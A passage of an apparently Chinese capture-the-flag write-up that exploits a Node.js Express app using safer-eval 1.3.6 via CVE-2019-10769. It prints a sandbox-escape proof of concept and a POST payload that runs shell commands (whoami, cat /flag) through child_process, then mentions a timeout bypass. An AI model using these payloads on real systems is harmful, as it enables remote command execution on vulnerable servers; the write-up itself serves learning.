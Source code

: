 ```javascript
});

app.get('/', function (req, res) {
  res.set('Content-Type', 'text/html;charset=utf-8');
  res.send(fs.readFileSync('./index.html'))
})

app.listen(80, '0.0.0.0', () => {
  console.log('Start listening')
});
```

```text
{
  "name": "src",
  "version": "1.0.0",
  "main": "index.js",
  "license": "MIT",
  "dependencies": {
    "body-parser": "1.19.0",
    "express": "4.17.1",
    "safer-eval": "1.3.6"
  }
}
```

看到eval或许可以利用一波

找到对应的cve -- CVE-2019-10769

![Breakout #10](https://github.com/commenthol/safer-eval/issues/**10**)

```javascript
const saferEval = require("./src/index");

const theFunction = function () {
  const process = clearImmediate.constructor("return process;")();
  return process.mainModule.require("child_process").execSync("whoami").toString()
};
const untrusted = `(${theFunction})()`;

console.log(saferEval(untrusted));
```

对应页面中有一个 `/eval`, 传入参数e命令执行

```text
POST
e=clearImmediate.constructor("return process;")().mainModule.require("child_process").execSync("cat /flag").toString()
```

但是提示TimeOut，再次查看源码，发现时间限制，尝试溢出绕过限制

> node.js 中 int 的最大值为`2147483647`，溢出重置为`1`
